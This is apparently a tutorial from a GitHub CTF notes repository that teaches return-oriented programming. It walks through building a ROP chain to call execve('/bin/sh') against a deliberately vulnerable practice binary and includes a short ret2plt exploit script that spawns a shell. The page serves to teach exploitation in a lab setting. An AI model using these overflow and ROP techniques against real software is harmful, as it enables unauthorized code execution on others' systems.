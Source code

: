 # What's ROP?
When we face the challenge of NX, we need to change our attacking way. Use gadget existing in memory to build up your shellcode again, and this is ROP! The gadget of ROP usually ends with **ret**, because ret can pop rip and help us control it!!  
Fowllowing are the condition we need to fullfill before we start ROP:  
1. Overwrite return address  
2. We can find gadgets, if PIE is open, we also should leak the address of gadgets!    
  
## How to find gadgets?
`pop rax; ret` would be better than `mov rax, <val>` because the there would no the piece of value you want in binary.  

Here comes an important concept when you try to find gadgets by hands:  
```
400732:  41 5f       pop r15
400734:  c3          ret
```
You can try to return to `400733`. CPU would parse it `5f c3` as `pop rdi; ret;` :)

## ROP (`/file/rop/`)
```c
...
int main(){

    init();

    puts( "Say hello to stack :D" );

    char buf[0x30];
    gets( buf );

    return 0;
}
```
This is a sample helping to figure out how ROP works. Check the makefile in folder, we can see that pie, canary are disabled. Also we should be able to find a lot of gadgets because it is static-linked.  
This code would open a buffer of 48 bytes to receive our input. We cannot use shellcode to launch attack because NX is enabled. How do I hijack the control flow to pop a shell?  
First step is to overwrite the return address of main function and go to gadget one:  
```
------------  <---- rsp
|          |
|          |  <-- 0x30 bytes
|          |
------------
| saved rbp|  <-- 0x8 bytes
------------
| ret addr |
------------
```
Therefore, we would use `0x38` bytes of junk data to overflow and overwrite return address then. Here, we know we can hijack the control flow. But what should our control flow be like? To pop up a shell, our ideal goal is to call `execve('/bin/sh', 0, 0)`. Take a look at [syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), `sys_execve` needs rax to be 59, rdi to be address of `/bin/sh`, then both rsi and rdx to be 0.  
To find the gadgets, here comes a popular tools: [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).  
I would not describe the whole process of finding gadgets, it costs a long time. I would directly introduce the control flow hijacked by my rop chain:  
```
-----------
pop rdi; ret;   <-- ret addr of main function (gadget 1)
-----------
    bss
-----------
pop rsi; ret;   <-- ret addr of gadget 1 (gadget 2)
-----------
 "/bin/sh\0"
-----------
mov qword ptr [rdi], rsi; ret;  <-- ret addr of gadget 2 (gadget 3)
-----------
pop rdx; pop rsi; ret;   <-- ret addr of gadget 3 (gadget 4)
-----------
     0
     0
-----------
pop rax; ret;    <-- ret addr of gadget 4 (gadget 5)
-----------
     59
-----------
  syscall     <-- ret addr of gadget 5 (gadget 6)
```
Here we use six gadgets to make the syscall of execve. Let me explain gadgets one by one.  
1. Gadget 1 is to put the address of string(`/bin/sh`) into rdi. We can find a writeable place in virtual memory (It's possible to ruin program), here I choose bss section. When `ret` is executed, stuff pointed by rsp would be poped into rip. Therefore, rip would point to gadget 1 and execute it. At the same time, rsp points to bss. When gadget 1 try to pop rdi, the bss would be put into rdi. In final step, stack would pop again with `ret` executed, so rip point to gadget 2.  
2. Gadget 2 is to put string(`/bin/sh`) into rsi because we plan to put it into the bss in further step. Same, pop rsi then string would be put into rsi. In final step, rip point to gadget 3.  
3. Gadget 3 is to put value of rsi which is `/bin/sh` into the address referred by rdi, which is bss. In final step, rip point to gadget 4.  
4. Gadget 4 is to give 0 to both rdx and rsi. In final step, rip point to gadget 5.  
5. Gadget 5 is to give 59 to rax, then rip point to gadget 6.  
6. Gadget 6, final gadget, make syscall.  

Exploit: (`/file/rop/exp.py` run with python2)

## ret2plt (`/file/ret2plt/`)
This binary has less gadgets because it uses dynamic linking. However, we won't need to build ropchain piece by piece this time. There is plt function which can do what we want to do; therefore, this time we would ret2plt. To call `system('sh')`, I would like to call `gets@plt` to input the string(`sh`), then call `system@plt`. This time, exploit is much shorter :)
```py
...
pop_rdi = 0x400733
bss = 0x6010a0
getsplt = 0x400530
systemplt = 0x400520

p = flat('a' * 0x38, pop_rdi, bss, getsplt, pop_rdi, bss, systemplt)

r.sendlineafter(':D', p)
r.interactive()
```
1. `gets()` would accept bss from rdi as its first parameter. Here, exploit would pop out a shell, then we can input our string `sh`, `gets` would help us to put the string to bss.
2. `system()` would accept bss from rdi as its first parameter. system locates to bss and find `sh` in it.
  
## Practice  
Kinds of ROP | practice link  
------------ | --------------  
Would you like to try simple rop first? | [NTU 2017 ROP](https://github.com/shinmao/CTF-writeups/tree/master/NTU-CTF-2017/simple_rop)